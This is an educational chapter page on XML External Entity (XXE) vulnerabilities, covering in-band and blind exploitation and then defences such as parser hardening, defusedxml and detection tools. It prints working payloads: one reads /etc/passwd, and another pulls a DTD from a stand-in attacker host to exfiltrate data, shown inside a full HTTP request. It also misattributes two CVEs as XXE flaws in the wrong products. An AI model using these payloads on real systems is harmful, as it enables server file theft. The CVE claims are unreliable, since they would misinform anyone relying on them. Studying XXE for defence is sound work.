

## XML External Entity (XXE) Vulnerability Overview

### What is XML External Entity (XXE)?

XML External Entity (XXE) vulnerabilities arise from the ability of an attacker to inject malicious XML content into an application. This injected content can reference external entities, which can lead to unauthorized access to sensitive information, denial of service, or even remote code execution. The core issue lies in the improper handling of XML input by the application, particularly when parsing XML documents that contain references to external entities.

### Why Does XXE Matter?

XXE vulnerabilities are significant because they can be exploited in various ways, depending on the context. They can lead to data exfiltration, server-side request forgery (SSRF), and denial of service attacks. These vulnerabilities often exist due to the lack of proper validation and sanitization of user-supplied XML data.

### How Does XXE Work Under the Hood?

When an application parses an XML document, it may encounter references to external entities. These entities can be defined within the XML document itself or referenced from external sources. If the parser is configured to resolve these external entities, it can lead to unintended behavior. For instance, an attacker might craft an XML document that references a file on the server's filesystem, leading to unauthorized data disclosure.

### Example of XXE Injection

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

In this example, the `<!ENTITY>` declaration defines an entity named `xxe` that references the `/etc/passwd` file on the server. If the application parses this XML document without proper validation, it may inadvertently disclose the contents of the `/etc/passwd` file.

### Recent Real-World Examples

One notable example of an XXE vulnerability is CVE-2018-11776, which affected the Apache Struts framework. This vulnerability allowed attackers to execute arbitrary commands on the server by exploiting an XXE vulnerability in the framework's XML processing logic. Another example is CVE-2019-11253, which affected the Jenkins CI server, allowing attackers to read arbitrary files on the server through an XXE vulnerability.

### Blind XXE Exploitation

Blind XXE exploitation refers to scenarios where the attacker does not receive direct feedback from the server but can infer the presence of an XXE vulnerability through indirect means. This type of exploitation is more challenging but still possible.

### Steps to Craft a Blind XXE Payload

To craft a blind XXE payload, the attacker needs to inject an XML document that references an external entity and then observe the server's behavior. Here’s a detailed breakdown of the process:

1. **Inject XML with External Entity Reference**:
   The attacker crafts an XML document that includes a reference to an external entity. This entity can be a URL that points to a server controlled by the attacker.

2. **Observe Server Behavior**:
   The attacker monitors the server controlled by them to see if the server makes a request to the specified URL. If the server makes such a request, it indicates that the XXE vulnerability is present.

3. **Exploit the Vulnerability**:
   Once the vulnerability is confirmed, the attacker can attempt to extract sensitive data or perform other malicious actions.

### Detailed Example of Blind XXE Payload

Let’s consider a scenario where an attacker wants to exploit a blind XXE vulnerability in a web application. The attacker crafts the following XML payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker-controlled-server.com/evil.dtd">
%remote;
]>
<root><data>&exfil;</data></root>
```

In this example:
- The `<!ENTITY % remote SYSTEM ...>` declaration references an external DTD (`evil.dtd`) hosted on the attacker's server.
- The `%remote;` directive includes the content of the external DTD.
- The `&exfil;` entity is defined within the external DTD and can be used to exfiltrate data.

### Full HTTP Request and Response

Here’s a complete HTTP request and response for the above payload:

#### HTTP Request

```http
POST /api/endpoint HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml
Content-Length: 223

<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker-controlled-server.com/evil.dtd">
%remote;
]>
<root><data>&exfil;</data></root>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Aug 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: application/xml
```

### Diagram of Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Validation**: Failing to validate and sanitize user-supplied XML data.
2. **Disabling External Entity Resolution**: Not disabling the resolution of external entities in the XML parser.
3. **Lack of Monitoring**: Not monitoring for unusual network traffic or requests to external servers.

#### Detection

Detection of XXE vulnerabilities can be achieved through:
- **Static Code Analysis**: Using tools like SonarQube, Fortify, or Checkmarx to identify potential XXE vulnerabilities in the codebase.
- **Dynamic Analysis**: Using tools like Burp Suite, OWASP ZAP, or Metasploit to test for XXE vulnerabilities during runtime.
- **Logging and Monitoring**: Implementing logging and monitoring to detect unusual network traffic or requests to external servers.

### How to Prevent / Defend Against XXE

#### Secure Coding Fixes

1. **Disable External Entity Resolution**:
   Ensure that the XML parser is configured to disable the resolution of external entities. This can be done by setting the appropriate configuration options in the parser.

   ```java
   DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
   dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
   ```

2. **Validate and Sanitize Input**:
   Validate and sanitize all user-supplied XML data to ensure it does not contain malicious content.

   ```python
   import defusedxml.ElementTree as ET

   xml_data = "<root><data>&lt;script&gt;alert('XSS')&lt;/script&gt;</data></root>"
   tree = ET.fromstring(xml_data)
   print(tree.find('data').text)
   ```

#### Configuration Hardening

1. **Web Application Firewall (WAF)**:
   Configure a WAF to block requests containing suspicious XML content.

2. **Network Segmentation**:
   Segment the network to limit the exposure of internal resources to external entities.

#### Mitigations

1. **Use Secure Libraries**:
   Use libraries that are designed to handle XML securely, such as `defusedxml` in Python.

2. **Regular Security Audits**:
   Conduct regular security audits and penetration testing to identify and mitigate XXE vulnerabilities.

### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:
- **PortSwigger Web Security Academy**: Offers a comprehensive module on XXE vulnerabilities.
- **OWASP Juice Shop**: Contains several XXE challenges that can be used to practice exploitation and mitigation techniques.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including XXE, for educational purposes.

By thoroughly understanding and practicing the concepts covered in this chapter, you will be well-equipped to identify, exploit, and defend against XXE vulnerabilities in real-world applications.

---
<!-- nav -->
[[02-Introduction to Blind XXE Exploitation|Introduction to Blind XXE Exploitation]] | [[API Security/22-Offensive XXE Exploitation/01-Blind XXE Background Concept/00-Overview|Overview]] | [[04-Understanding XML External Entity (XXE) Attacks|Understanding XML External Entity (XXE) Attacks]]
